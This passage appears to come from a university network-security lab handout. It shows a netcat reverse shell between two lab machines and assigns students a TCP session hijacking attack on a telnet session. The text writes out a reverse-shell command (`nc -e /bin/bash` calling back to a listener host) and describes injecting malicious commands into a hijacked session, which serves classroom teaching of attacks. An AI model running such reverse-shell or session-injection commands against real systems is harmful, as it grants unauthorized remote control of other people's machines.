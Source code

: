 ![nc listening](../assets/images/nclisten.png "netcat listening")

![nc bash](../assets/images/ncbash.png "netcat bash shell")

__Figure 4.__ Reverse shell using the netcat command `nc`


In summary, `nc -e /bin/bash 172.18.123.5 1234` starts a bash shell, with its input coming from a netcat connection. Test this out yourself, but __select a random port__ from (1000 - 5000). 

In the demo shown above, when the bash shell command is executed on 172.18.123.6 (cmsc334-1), it connects back to the `netcat` process started on 172.18.123.5 (cmsc334-2). This is confirmed via the "connect to [172.18.123.5] from x-mcs-cmsc334-1.richmond.edu [172.18.123.6] 33584" message displayed by `netcat`. The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the `telnet` server in our setup, but in this task, you do not have such an access. Your task is to launch an TCP session hijacking attack on an existing `telnet` session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server. 

_ Modify the Python program __tcp_hijack.py__ from task 3 to open a reverse shell, include this program in your GitHub repository.

- In the `README.md` file for this module explain how your modified version of __tcp_hijack.py__ Python script works and the results of your experiment. 




